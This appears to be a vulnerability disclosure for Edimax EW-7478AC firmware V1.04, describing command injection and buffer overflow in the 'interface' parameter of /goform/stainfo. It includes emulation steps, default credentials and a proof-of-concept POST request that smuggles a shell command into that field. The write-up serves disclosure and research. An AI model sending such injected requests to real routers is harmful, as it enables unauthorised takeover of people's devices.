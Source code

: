 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.04*. The vulnerability arises from the improper input validation of the `interface` parameter in the 'stainfo' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.04

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'stainfo' is below:
![vulner_code.png](./img/vulner_code.png)


- ​**websGetVar** retrieves POST parameters.
- ​**sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there is a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/stainfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

interface=1;echo hack>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)

if we change the value of 'interface', we can trigger a buffer overflow vulnerability. The attack result are as follow:
![overflow](overflow_result.png)